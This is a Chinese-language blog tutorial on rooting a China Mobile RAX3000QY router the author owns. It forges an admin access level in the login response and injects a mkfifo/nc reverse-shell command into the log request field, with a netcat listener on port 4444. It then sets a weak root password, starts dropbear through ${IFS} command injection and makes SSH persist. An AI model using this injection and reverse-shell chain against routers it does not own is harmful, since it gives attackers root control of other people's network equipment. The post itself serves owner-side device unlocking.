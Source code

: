 ```yaml
---
title: 中国移动RAX3000QY SSH提权并固化
date: 2025-02-19
categories: [路由器]
tags: [网络]
---
```


## 前言
开学前，35元从小黄鱼购入一台移动rax3000qy，并且因这台机子比较小，直接塞网络箱里，当主路由拨号，并且体验一下wifi6  
到手这台机子固件版本是`Ver1.0.0`（此为FakeVersion），PING次数为4，并且试尽办法，仍然无法用超管的账户登陆，由此可知，我手上这台机子应该是无superadmin账户的web面板（要折腾的话，要等暑假了）。  
本文根据恩山论坛大佬[ponyjs的文章](https://www.right.com.cn/forum/forum.php?mod=viewthread&tid=8349210&highlight=rax3000q)和本人的经历总结  

## 需要的工具
- [Reqable](https://reqable.com/zh-CN/)（或其他抓包工具）
- [NetCat](https://blog.csdn.net/AFiveStudy/article/details/129272607)
- [WinSCP](https://winscp.net/eng/index.php)（或其他ssh工具）

## 正式步骤

### 破解Shell
1. 启动 Reqable 并设置好代理
2. 用浏览器登陆路由器后台（默认192.168.10.1）
3. 找到`路由器后台ip/item/login`数据包，右键→修改响应
   ![picture1](/assets/img/2025-02-19/Snipaste_2025-02-19_18-39-23.png)
4. 添加修改响应规则`"account_level":"3"`替换成`"account_level":"1"`
   ![picture2](/assets/img/2025-02-19/Snipaste_2025-02-19_18-40-08.png)
5. 重新登陆路由器后台，会发现页面多了一下控件
   ![picture3](/assets/img/2025-02-19/Snipaste_2025-02-19_18-41-18.png)
6. 路由器后台，更多→管理→日志管理，把日志开关打开
   ![picture4](/assets/img/2025-02-19/Snipaste_2025-02-19_18-41-33.png)
7. 在 Reqable 寻找日志数据包，右键编辑
   ![picture5](/assets/img/2025-02-19/Snipaste_2025-02-19_18-42-22.png)
8. 在 cmd 中输入`ipconfig`查看本机ip地址（此为`192.168.1.7`）
    ![picture6](/assets/img/2025-02-19/Snipaste_2025-02-19_18-43-01.png)
9. 在请求体`websys.log`后边添加
```
|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ip地址 4444 >/tmp/f
```
    ![picture7](/assets/img/2025-02-19/Snipaste_2025-02-19_18-43-16.png)
10. 启动 Netcat ，并监听`4444`端口，在 Reqable 中点击发送，即可获取Shell
```
nc -lvnp 4444
```
    ![picture8](/assets/img/2025-02-19/Snipaste_2025-02-19_18-44-00.png)
    ![picture9](/assets/img/2025-02-19/Snipaste_2025-02-19_18-43-54.png)

### 解锁ssh并固化
1. 在上步👆 Netcat 中输入`passwd`，再输入两次`admin`，设置ssh登陆密码，再在`22`端口启动`dropbear ssh`服务
```
$(dropbear${IFS}-p${IFS}22)
```
    ![picture10](/assets/img/2025-02-19/Snipaste_2025-02-19_18-44-34.png)
2. 再打开 WinSCP （或其他ssh工具， cmd 也可），登陆ssh
   ![picture11](/assets//img/2025-02-19/Snipaste_2025-02-19_18-45-58.png)
   ![picture12](/assets//img/2025-02-19/Snipaste_2025-02-19_18-47-31.png)
   ![picture13](/assets//img/2025-02-19/Snipaste_2025-02-19_18-47-50.png)
3. 修改端口和 enable 值
   1. 在 WinSCP 里在目录`/etc/config`右键`dropbear`文件，编辑它，修改端口和 enable 值，修改成以下
```
config dropbear
    option PasswordAuth 'on'
    option RootPasswordAuth 'on'
    option Port         '22'
    option enable       '1'
```
   2. 在 cmd 里输入命令`vi /etc/config/dropbear`，进入vi/vim模式，编辑成3.1一致（vi/vim命令可以看[菜鸟教程](https://www.runoob.com/linux/linux-vim.html)）
4. dropbear 开机启动
   1. 在 WinSCP 快捷键`Shift+Ctrl+T`进入终端，输入命令`/etc/init.d/dropbear enable`
   2. 在 cmd 输入命令`/etc/init.d/dropbear enable`
